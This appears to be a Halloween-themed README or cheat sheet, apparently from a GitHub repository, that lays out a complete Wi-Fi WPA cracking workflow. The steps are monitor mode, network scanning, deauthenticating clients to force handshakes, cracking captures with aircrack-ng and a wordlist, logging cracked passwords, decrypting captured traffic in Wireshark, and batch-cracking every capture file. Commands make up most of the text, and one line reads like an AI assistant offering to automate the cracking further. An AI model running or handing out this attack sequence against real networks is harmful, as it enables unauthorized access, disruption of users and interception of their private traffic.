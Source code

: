 🩸 𝔇𝔯𝔞𝔠𝔲𝔩𝔞 𝔏𝔞𝔟𝔰 — Quick Command Rituals
🧛 Start Monitor Mode

sudo ./start-monitor.sh
🧠 Scan Nearby Networks

sudo airodump-ng wlan0mon
Stop with Ctrl + C when you see your target

🧛 Capture Handshake

sudo ./capture.sh
Let it run until a client connects — look for EAPOL packets or WPA handshake: xx:xx:xx:xx at top.

💀 Deauth Clients (force reconnect)

sudo ./deauth.sh
Use this to kick clients off the network so they reconnect, triggering a handshake.

🧪 Crack Handshake (once .cap is captured)

aircrack-ng -w rockyou.txt handshake-capture-01.cap
Or:


aircrack-ng -w rockyou.txt -b <BSSID> handshake-capture-01.cap
🧛 After Cracking: What Next?
Here’s what Dracula would do after a successful crack:

✅ 1. Verify the Password Works
Test it by connecting to the Wi-Fi manually on a second device.

📜 2. Log the Results
Keep track of cracked networks:


echo "Network: VampireNest | BSSID: xx:xx:xx:xx | PASS: dracula123" >> cracked-results.txt
Or use a formatted .csv:


ESSID,BSSID,Password
VampireNest,AA:BB:CC:DD:EE:FF,dracula123
📊 3. Use Dashboard.html
If your dashboard.html is coded to read results, update it with:


<tr><td>VampireNest</td><td>AA:BB:CC:DD:EE:FF</td><td>dracula123</td></tr>
Want me to automate this? I can make the crack.sh auto-update your HTML.

🔥 4. Analyze Traffic with Cracked Key (Advanced)
Decrypt captured .cap traffic in Wireshark:

Open .cap in Wireshark

Go to:
Edit → Preferences → Protocols → IEEE 802.11

Add your cracked password under Decryption Keys:

makefile

wpa-pwd:dracula123:VampireNest
Now you can see decrypted data from the network.

🧰 5. Automate the Blood Ritual
Create a one-liner to crack all .cap files:


for f in *.cap; do aircrack-ng -w rockyou.txt "$f" | tee "${f%.cap}-results.txt"; done
🦇 Dracula's Ritual Summary
Task	Command
Start monitor mode	sudo ./start-monitor.sh
Scan networks	sudo airodump-ng wlan0mon
Capture handshake	sudo ./capture.sh
Deauth clients	sudo ./deauth.sh
Crack handshake	aircrack-ng -w rockyou.txt handshake.cap
Log cracked pass	echo "info" >> cracked-results.txt
Decrypt in Wireshark	wpa-pwd:password:SSID
Crack all .cap files	for f in *.cap; do ... ; done

